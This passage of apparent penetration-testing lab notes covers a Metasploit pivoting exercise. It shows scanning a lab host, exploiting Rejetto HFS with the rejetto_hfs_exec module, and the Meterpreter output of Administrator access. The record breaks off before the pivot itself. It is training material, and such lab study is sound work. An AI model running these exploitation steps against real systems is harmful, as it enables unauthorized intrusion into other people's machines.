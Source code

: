 > 📌 Exploit files or executables need to be cleaned too.

------

## Lab 10 - [Pivoting](https://www.offsec.com/metasploit-unleashed/pivoting/)

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Target 1 IP: `10.2.30.252`
> - Target 2 IP: `10.2.21.166`
> - **Pivoting** technique with a *network route* to the internal network's subnet

```bash
ping 10.2.30.252
    PING 10.2.30.252 (10.2.30.252) 56(84) bytes of data.
    64 bytes from 10.2.30.252: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.30.252: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.21.166
	PING 10.2.21.166 (10.2.21.166) 56(84) bytes of data.
# No response from target2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV 10.2.30.252
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.30.252
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator

ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```